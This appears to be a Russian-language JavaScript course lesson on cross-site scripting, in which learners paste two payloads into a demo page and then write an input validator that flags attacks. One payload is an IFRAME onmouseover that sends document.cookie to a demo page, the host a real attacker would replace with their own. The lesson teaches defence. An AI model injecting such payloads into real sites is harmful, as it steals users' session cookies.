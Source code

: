 # ![ico-30 study] XSS

XSS ( Cross-Site Scripting — «межсайтовый скриптинг» ) — атака на веб-систему путем инъекции вредоносного кода
^^вместо "C" используется "X", чтобы не было путаницы с CSS^^

Внедренный код будет выполняться на компьютере пользователя
Код может пересылать конфиденциальные данные  пользователя  веб-серверу хакера

Разновидностей XSS-атак очень много
Частично они отражаются на уровне браузера
В данном примере мы  будем внедрять код при вводе пользовательских данных
и использовать обработчиков событий элементов для запуска внедренного кода

[![ico-20 link] Перейдите по ссылке](https://garevna.github.io/js-samples/#03)

Откройте **~Chrome DevTools~**

Установите точки останова  ( ~breakpoints~ ) для того, чтобы пошагово отслеживать выполнение кода и вносить изменения в код

1. Скопируйте код ниже и вставьте его в поле ввода элемента ~input~:

~~~html
<IMG SRC="images/hack.png"
     onerror="document.write ( String.fromCharCode ( 88, 83, 83) )"/>
~~~

это довольно безобидная "атака", которая просто перезапишет содержимое ~body~

2. Скопируйте код ниже и вставьте его в поле ввода элемента ~input~:

~~~html
<IFRAME SRC=js/attack.html
        onmouseover="window.open ( 'https://garevna.github.io/js-samples/js/attack.html#' + document.cookie, '_self' )">
</IFRAME>
~~~

^^с помощью такой строки можно украсть куки с компьютера пользователя, где хранится конфиденциальная информация о нем^^

Обратите внимание, что вместо ссылки ![ico-20 cap] ~https://garevna.github.io/js-samples/js/attack.html~

в реальной атаке будет ссылка на сайт ( страницу ) хакера

## ![ico-25 hw] Задание

В панели навигации откройте файл **~js/index03.js~**

Обратите внимание на функцию валидации ввода пользователя  ( **~testUserText~** )

В случае XSS атаки функция должна заменить текст, введенный пользователем, на сообщение: "*XSS атака отражена*" с указанием текущей даты и времени

__________________________________________________________

[![ico-20 link] securitylab](https://www.securitylab.ru/analytics/432835.php)
[![ico-20 link] websitesecurity](https://www.acunetix.com/websitesecurity/cross-site-scripting/)
